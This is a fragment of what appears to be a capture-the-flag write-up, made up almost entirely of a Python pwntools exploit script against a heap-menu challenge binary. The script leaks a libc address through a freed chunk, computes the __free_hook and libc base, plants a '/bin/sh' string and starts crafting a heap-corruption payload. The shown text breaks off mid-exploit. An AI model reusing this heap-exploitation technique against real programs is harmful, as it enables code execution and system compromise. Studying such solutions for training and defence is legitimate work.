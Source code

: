 

::: details

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
# Copyright © 2020 wlz <wlz@kyria>
#
# Distributed under terms of the MIT license.

from pwn import * 

pie  = 1
arch = 64
bps  = [0x0000000000002290, 0x00000000000030F0, 0x00000000000026D6]


def add(idx, size, path):
    sll('1')
    sll(str(idx))
    sll(str(size))
    sll(path)

def check(idx):
    sll('2')
    sll(str(idx))

def show(idx):
    sll('3')
    sll(str(idx))


def dele(idx):
    sll('4')
    sll(str(idx))


def exp():

    add(0, 0x580, 'a' * 0x80)
    add(1, 0x10, '/bin/sh\x00')
    dele(0)
    add(0, 0x580, '')
    show(0)
    ru("[+] Path : ")
    leak = u64(re(8, 2))
    free_hook = leak + 0x1ce8
    libc = free_hook - 0x3ed8e8
    print(hex(leak))
    print(hex(free_hook))

    add(2, 0x40, 'a')
    add(3, 0x40, 'a')
    add(4, 0x80, 'a')
    add(5, 0x80, 'a')

    dele(2)
    dele(3)
    dele(5)

    payload1 = flat('~', p8(0xff) * 0x10, '\\', 'u' * 0x30, '/', 'e' * (0x8-1), '!\x01',  '/', 'f' * 0x5)
```